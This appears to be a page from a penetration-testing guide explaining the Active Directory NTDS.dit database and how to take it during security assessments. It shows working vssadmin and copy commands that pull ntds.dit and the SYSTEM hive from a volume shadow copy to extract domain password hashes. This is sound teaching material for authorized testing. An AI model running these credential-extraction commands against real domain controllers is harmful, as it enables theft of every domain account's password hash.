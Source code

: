# NTDS.dit

## NTDS Database

The NTDS.dit file is the Active Directory database that stores user accounts, group memberships, password hashes, and other critical domain information. As one of the most valuable targets in a Windows domain environment, understanding how to properly extract and analyze the NTDS.dit can be crucial during penetration testing and security assessments.

### Overview of NTDS.dit

The NTDS.dit (NT Directory Services Directory Information Tree) file:

* Is the primary database for Active Directory Domain Services
* Stores all domain objects including users, groups, and computers
* Contains password hashes for all domain accounts
* Is typically located at `C:\Windows\NTDS\ntds.dit` on domain controllers
* Is locked while Active Directory services are running
* Can contain historical password hashes if enabled in the domain

Unlike the SAM database, which only contains local accounts, NTDS.dit contains information for all domain accounts across the entire Active Directory forest.

### Obtaining NTDS.dit

#### Prerequisites

To extract the NTDS.dit file, you typically need:

* Domain Admin privileges (or equivalent)
* Access to a Domain Controller
* Methods to bypass the file lock

#### Method 1: Using Volume Shadow Copy

One of the most common methods is to create a Volume Shadow Copy (VSS) to bypass the file lock:

```cmd
# Create a shadow copy of the C: drive
C:\> vssadmin CREATE SHADOW /For=C:

# Example output showing the shadow copy path
Shadow Copy ID: {86216c43-df26-4d5c-ab44-6c3e3cc7a54f}
Shadow Copy Volume Name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2

# Copy the NTDS.dit file from the shadow copy
C:\> copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit C:\temp\ntds.dit

# Copy the SYSTEM registry hive (needed for decryption)
C:\> copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\System32\config\SYSTEM C:\temp\SYSTEM
```
